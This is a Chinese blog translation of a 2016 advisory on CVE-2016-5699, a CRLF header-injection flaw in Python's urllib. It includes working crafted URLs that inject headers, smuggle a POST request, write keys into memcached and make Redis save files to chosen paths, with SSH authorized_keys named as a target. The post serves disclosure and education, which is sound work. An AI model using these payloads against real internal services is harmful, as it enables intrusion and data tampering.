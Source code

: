 ```yaml
---
id: 749
layout: post
title: 'Python urllib HTTP头注入漏洞'
date: 2016-06-17 19:34:00
author: virusdefender
tags: 
---
```


已经发在了乌云知识库 http://drops.wooyun.org/papers/16905


## 总览

Python的urllib库（在Python2中为`urllib2`，在Python3中为`urllib`）有一个HTTP协议下的协议流注入漏洞。如果攻击者可以控制Python代码访问任意URL或者让Python代码访问一个恶意的web server，那这个漏洞可能会危害内网服务安全。

## 问题在哪

HTTP协议解析host的时候可以接受百分号编码的值，解码，然后包含在HTTP数据流里面，但是没有进一步的验证或者编码，这就可以注入一个换行符。

```python
#!/usr/bin/env python3

import sys
import urllib
import urllib.error
import urllib.request

url = sys.argv[1]

try:
    info = urllib.request.urlopen(url).info()
    print(info)
except urllib.error.URLError as e:
    print(e)
```

这段代码只是从命令行参数接收一个URL，然后去访问它。为了查看`urllib`获取的HTTP头，我们用一个nc来监听端口。

```clike
nc -l -p 12345
```

在正常的代码中，我们可以这样访问

```clike
./fetch3.py http://127.0.0.1:12345/foo
```

返回的HTTP头是

```clike
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Connection: close
Host: 127.0.0.1:12345
```

然后我们使用恶意构造的地址

```clike
./fetch3.py http://127.0.0.1%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345/foo
```

返回的HTTP头就是

```clike
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
X-injected: header
x-leftover: :12345
Connection: close
```

然后攻击者可以任意注入HTTP头了。

这个攻击在使用域名的时候也可以进行，但是要插入一个空字节才能进行DNS查询。比如说，下面的URL进行解析会失败的。

```
http://localhost%0d%0ax-bar:%20:12345/foo
```

但是下面的URL是可以正常解析并访问到127.0.0.1的

```
http://localhost%00%0d%0ax-bar:%20:12345/foo
```

要注意的是HTTP重定向也可以利用这个漏洞，如果攻击者提供的URL是一个恶意的web server，然后服务器可以重定向到其他的URL也可以导致协议注入。

## 攻击面

下面会讨论几个可能导致严重后果的攻击方式。当然还远远不够，攻击都需要特定的场景，有很多不同的方法可以利用，还不能确定有没有其他的利用方式。

### HTTP头注入和请求伪造

这个攻击方式由来已久了，但是和[以前的请求伪造](http://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf
)不同的是，这里仅仅是可以注入额外的HTTP头和请求方法。当然当前场景下，能够提交不同的HTTP方法和请求数据就已经很有用了，比如说原始的请求是这样的

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
Connection: close
```

攻击者可以注入一个额外的完整的HTTP请求头

```
http://127.0.0.1%0d%0aConnection%3a%20Keep-Alive%0d%0a%0d%0aPOST%20%2fbar%20HTTP%2f1.1%0d%0aHost%3a%20127.0.0.1%0d%0aContent-Length%3a%2031%0d%0a%0d%0a%7b%22new%22%3a%22json%22%2c%22content%22%3a%22here%22%7d%0d%0a:12345/foo
```

这个的响应是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
Connection: Keep-Alive

POST /bar HTTP/1.1
Host: 127.0.0.1
Content-Length: 31

{"new":"json","content":"here"}
:12345
Connection: close
```

demo中注入的完整的请求头在Apache HTTPD下是工作的，但是其他的server不一定能正确的解析或者利用。这种攻击可以用在内网攻击上，比如未授权的REST、SOAP或者类似的服务[Exploiting Server Side Request Forgery on a Node/Express Application (hosted on Amazon EC2)](http://sethsec.blogspot.com/2015/12/exploiting-server-side-request-forgery.html)

### 攻击memcached

在[memcached文档](https://github.com/memcached/memcached/blob/master/doc/protocol.txt)中，memcached会开放几个简单的网络协议接口供缓存数据读取和存储使用。一般来说，这种mamcached都是部署在应用服务器上，这样多个实例之间共享数据或者进行一些操作就会比较快，不用进行数据库操作了。要注意的是，memcached默认是都没有密码保护的。开发者或者管理员一般也是认为内网的应用是无法被攻击的。

这样，如果我们可以控制内网的Python访问一个URL，然后我们就可以轻松的访问memcached了，比如

```
http://127.0.0.1%0d%0aset%20foo%200%200%205%0d%0aABCDE%0d%0a:11211/foo
```

就会产生下面的HTTP头

```
GET /foo HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
set foo 0 0 5
ABCDE
:11211
```

当检查下面几行memcached的协议语法的时候，大部分都是语法错误，但是memcached在收到错误的命令的时候并不会关闭连接，这样攻击者就可以在请求的任何位置注入命令了，然后memcached就会执行。下面是memcached的响应（memcached是Debian下包管理默认配置安装的）

```
ERROR
ERROR
ERROR
ERROR
ERROR
STORED
ERROR
ERROR
```

经过确认，memcached中确实成功的插入了`foo`的值。这种场景下，攻击者就可以给内网的memcached实例发送任意命令了。如果应用依赖于memcached中存储的数据（比如用户的session数据，HTML或者其他的敏感数据），攻击者可能获取应用更高的权限了。这个利用方式还可以造成拒绝服务攻击，就是攻击者可以在memcached中存储大量的数据。

### 攻击Redis

Redis和memcached很相似，因为都提供了数据备份存储，一些内置数据类型，还能执行Lua脚本。前几年Quite a bit公布了攻击Redis的一些方法（[链接1](https://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/) [链接2](http://antirez.com/news/96) [链接3](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)）。和memcached类似，Redis提供了TCP协议的接口，然后也可以执行一堆错误命令中的正确命令。另外，还可以利用Redis在写任意文件，攻击者可以控制一部分文件内容。比如下面的URL在`/tmp/evil`下创建了一个数据库文件。

```
http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0aSET%20foo%20bar%0d%0aSAVE%0d%0a:6379/foo
```

然后可以看到刚才存储的一些键值对数据

```
# strings -n 3 /tmp/evil
REDIS0006
foo
bar
```

理论上，攻击者就可以利用Redis创建或者改写一些敏感文件了，包括

```
 ~redis/.profile
 ~redis/.ssh/authorized_keys
...
```

## 多版本的Python都受到影响

Python 2和3版本都受到影响，Cedric Buissart 提供了修复问题的部分信息。

3.4 / 3.5 : [revision 94952](https://hg.python.org/cpython/rev/bf3e1c9b80e9)
2.7 : [revision 94951](https://hg.python.org/cpython/rev/1c45047c5102)

虽然已经在最新的版本中修复了，但是很多系统的稳定版是没法得到修复的，比如最新的Debian Stable就还存在这个漏洞。

## 我的一点思考

Redis和memcached的开发者提供的默认配置是没有密码的，这个是不负责任的。当然，我能理解他们认为这些东西应该在"可信的内网"中使用。问题，实际上很少的内网能比外网更安全。未授权的服务即使监听在localhost，也会受到影响的。在安装过程中加一个随机生成的密码也并不难，开发者应该严肃的面对安全问题。

## 注

 - 这个漏洞编号是 CVE-2016-5699，RedHat给申请的 http://www.openwall.com/lists/oss-security/2016/06/14/7
 - 以前Python bugs中的讨论 https://bugs.python.org/issue22928
 
 
原文 http://blog.blindspotsecurity.com/2016/06/advisory-http-header-injection-in.html


